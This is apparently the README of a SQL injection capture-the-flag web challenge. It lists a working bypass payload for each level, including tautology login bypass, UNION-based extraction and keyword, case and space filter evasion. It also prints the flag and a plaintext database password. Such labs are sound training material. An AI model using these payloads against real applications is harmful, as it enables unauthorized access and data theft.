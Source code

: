 # SQLI Web CTF Challenge
 
It is a Web Based SQLI CTF Challenge.

## Development Stack

* Node Js
* MYSQL

## How to deploy/install
  1. Clone the Repository
  2. Create docker images using docker files.
  

# DB Connection Password

fJR3AvgmVyQtrTXp

## How to play/solve the challenge

Once to reach the login portal. Each portal has a specific filter. The bypass injections for each level are as follows:

1. Simple injection -  admin' or '1'='1 (regex added to prevent other types of queries; REGEX-[/^[A-za-z]{1,5}' or [A-Za-z0-9'=#]*$/g])

2. Union Injection - ' union select secret from secret_table#' (case check not required as table name has to be lower case)

3. Replaces union and select with blanks - ' uniunionon selselectect secret from secret_table# (secret_table check added)

4. Bans lower case and upper case sql commands - ' UNiON SElECT secret FrOm secret_table# (blocked char)
5. Bans spaces -  '/\*\*/UNION/\*\*/SELECT/\*\*/secret/\*\*/FROM/\*\*/secret_table# (blocked char)
6. Submit the flag: 
    ```shell
    flag{nc-bug-bounty_t00k_y0u_l0ng_3n0ugh}
    ```

## Author
Aneesh Dua

SEL/**/ECT